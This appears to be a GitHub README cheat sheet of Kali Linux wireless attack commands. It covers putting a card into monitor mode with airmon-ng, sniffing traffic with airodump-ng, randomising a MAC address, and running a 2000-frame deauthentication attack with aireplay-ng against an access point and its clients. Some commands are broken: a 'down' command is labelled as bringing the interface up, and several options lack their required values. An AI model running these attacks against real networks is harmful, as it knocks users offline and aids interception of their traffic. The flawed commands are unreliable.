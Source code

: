 # Kali-Linux-Commands

## Enabling Monitor Mode

* Show all network devices `iwconfig` 
* To make sure network device is up and running `ifconfig wlan1 up` 
* Show all network cards `airmon-ng`
* To prevent from disabling monitor mode `airmon-ng check kill`
* Start monitor mode `airmon-ng start wlan1`

## Reset to normal mode

* `airmon-ng stop wlan1mon` : Stop monitor mode
* `service network-manager start` : Restart network settings

## Sniffing Packets using airodump-ng

* `airodump-ng wlan1mon` : Start sniffing
* *PWR = Signal Strength should be above than -70*

* `airodump-ng --bssid wlan1mon` :  Targeted sniffing


## macchanger

* `ifconfig wlan1 down` : Bring down the interface
* `macchanger -r wlan1` : Change mac address to random
* `ifconfig wlan1 down` : Bring the interface up

## Deauth Attacks

* `airodump-ng --channel --bssid  wlan1mon`
* `aireplay-ng --deauth 2000 -a [MAC of Access Point] [MAC of  Client] wlan1mon`







